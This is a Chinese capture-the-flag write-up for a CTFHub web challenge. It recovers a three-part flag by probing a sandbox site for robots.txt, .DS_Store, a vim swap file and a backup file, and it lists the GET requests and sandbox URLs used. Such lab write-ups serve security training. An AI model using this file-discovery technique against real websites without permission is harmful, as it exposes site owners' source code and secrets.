

### 题目名称：常见的搜集

题目来源：CTFHub（原题：N1Book-第一章Web入门-举足轻重的信息搜集-常见的搜集）

题目类别：Web

题目描述：



### 解题思路

这题一共三部分 flag，要分别从三个敏感文件里搜集出来，再拼成一个完整 flag。

页面正文写着信息搜集之所以重要，是因为其往往会带给我们一些意想不到的东西，等于把考点说明白了：去翻站点上的敏感文件。先看 robots.txt，它本来是写给搜索引擎爬虫看的，里面写了 Disallow: /flag1_is_her3_fun.txt，等于把文件名直接报给了我。打开这个文件得到第一部分，但没有右花括号，是残缺的，说明还有别的片段。

接着照敏感文件清单一个个试。.git 没有，.DS_Store 有但只泄露了目录名。试到 .index.php.swp 也就是 vim 的交换文件，里面有第三部分。再试 index.php~ 也就是 vim 的备份文件，里面有第二部分。三段拼起来才是完整 flag。

### 详细步骤

1. 打开首页，正文提示信息搜集很重要，直接访问是看不到 flag 的

2. 看 robots.txt，它把不想被爬的路径写出来了，等于告诉别人这里有东西

    ```
    User-agent: *
    Disallow: /flag1_is_her3_fun.txt
    ```

3. 打开这个文件，得到第一部分

    ```
    flag1:n1book{info_1
    ```

    20 字节，没有右花括号，是残缺的

4. 试 /.git/HEAD，返回 404，说明不是 git 泄露

5. 试 /.DS_Store，返回 200，10244 字节。这是 macOS 的目录元数据，能解出目录名 Bootswatch_ Sketchy_files，但没有 flag

6. 试 /.index.php.swp，返回 200，12288 字节，文件头是 b0VIM 8.0，说明是 vim 的交换文件。里面能读到第三部分

    ```
    <?php echo 'flag3:p0rtant_hack}';?>
    ```

7. 再试 /index.php~，也就是 vim 保存时留下的备份文件，返回 200，2187 字节。线上 index.php 里这一行已经被删掉了，但备份里还留着，这是第二部分

    ```
    <p>flag2:s_v3ry_im
    ```

8. 三段按顺序拼起来

    ```
    n1book{info_1  +  s_v3ry_im  +  p0rtant_hack}
    ```

    得到 n1book{info_1s_v3ry_imp0rtant_hack}，获得flag

### Payload

```
GET /robots.txt HTTP/1.1
GET /flag1_is_her3_fun.txt HTTP/1.1
GET /.index.php.swp HTTP/1.1
GET /index.php~ HTTP/1.1
```

完整的四个地址

```
http://challenge-250351896bb4c133.sandbox.ctfhub.com:10800/robots.txt
http://challenge-250351896bb4c133.sandbox.ctfhub.com:10800/flag1_is_her3_fun.txt
http://challenge-250351896bb4c133.sandbox.ctfhub.com:10800/.index.php.swp
http://challenge-250351896bb4c133.sandbox.ctfhub.com:10800/index.php~
```

### flag

n1book{info_1s_v3ry_imp0rtant_hack}

### 总结&反思
